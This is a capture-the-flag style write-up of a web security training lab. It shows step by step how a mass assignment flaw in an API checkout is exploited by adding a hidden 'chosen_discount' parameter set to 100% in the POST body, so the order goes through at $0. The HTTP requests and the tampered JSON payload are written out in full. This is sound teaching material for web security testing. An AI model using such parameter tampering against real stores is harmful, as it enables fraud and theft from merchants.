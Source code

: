 #Lab: Exploiting a mass assignment vulnerability
## Lab Description

To solve the lab, **find and exploit a mass assignment vulnerability to buy a Lightweight l33t Leather Jacket**. You can log in to your own account using the following credentials: `wiener:peter`.

Required knowledge
To solve this lab, you'll need to know:

- Why mass assignment may result in hidden parameters.
- How to identify hidden parameters.
- How to exploit mass assignment vulnerabilities.

These points are covered in our API Testing Academy topic.

## Lab Solution

First, to be able to purchase anything, the user has to be log in.

![](01-log-in.png)

As observed, the `wiener`'s account does not posses any funds to buy the jacket. Therefore, the task is to find a way how to by the jacket for free.

![](02-zero-credit-in-store.png)

Start with observation of the normal purchase flow. The selected item is added into the cart.

![](03-add-the-product-in-cart.png)

Then to observe a purchase flow, the order is placed.

![](04-cart.png)

Upon placing order a several calls are made in sequence.

After pressing `Place order` the `POST` method call is made to the `/api/checkout` endpoint, containing a JSON data,

**HTTP POST Request**
```
POST /api/checkout HTTP/2
Host: 0a200037041dc76385f90998006f0040.web-security-academy.net
Cookie: session=zLmVaEg89Qou5LQllzYMFyyg9Mnso23G

{"chosen_products":[{"product_id":"1","quantity":1}]}

```

Because there is insufficient funds for purchase, the server issue redirect to the location `/cart?err=INSUFFICIENT_FUNDS`

**HTTP Response**

```
HTTP/2 201 Created
Location: /cart?err=INSUFFICIENT_FUNDS
X-Frame-Options: SAMEORIGIN
Content-Length: 0

```

Following which the browser request multiple `GET` requests.

First `GET` request to endpoint `/cart?err=INSUFFICIENT_FUNDS` is visibly displayed to the user.
![](05-not-enough-funds.png)

However, response to the second `GET` request contains some interesting information. It is the request to the same endpoint as when `Place order` button is pressed, however this time it contains more information, such as `chosen_discount` variable, which was not present in the `POST` request.

**HTTP GET Request**
```
GET /api/checkout HTTP/2
Host: 0a200037041dc76385f90998006f0040.web-security-academy.net
Cookie: session=zLmVaEg89Qou5LQllzYMFyyg9Mnso23G
```

**HTTP Response**
```
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 153

{"chosen_discount":{"percentage":0},"chosen_products":[{"product_id":"1","name":"Lightweight \"l33t\" Leather Jacket","quantity":1,"item_price":133700}]}
```
However, response to the second `GET` request contains some interesting information. It is the request to the same endpoint as when `Place order` button is pressed, however this time it contains more information, such as `chosen_discount` variable, which was not present in the `POST` request.
This gives an indication to try adding this parameter to the `POST` request, and see if the API will accept the modification.

With intercept turned on, the call to purchase is made again.
![](06-place-order-again-with-intercept-on.png)

However, this time the original `JSON` in the request, is replaced with the content from the precious response from the `GET` request with alteration to ask for 100% discount

```
{
  "chosen_discount":{"percentage":100},
  "chosen_products":[
      {
        "product_id":"1",
        "name":"Lightweight \"l33t\" Leather Jacket",
        "quantity":1,
        "item_price":133700
        }
        ]
}
```

![](07-added-the-discount.png)

This time, the server send a confirmation and redirection to the page that the order was confirmed

![](08-success-order-confirmed.png)

And order was processed with the `$0.00` payment for the jacket.

![](09-order-placed-for-zero.png)
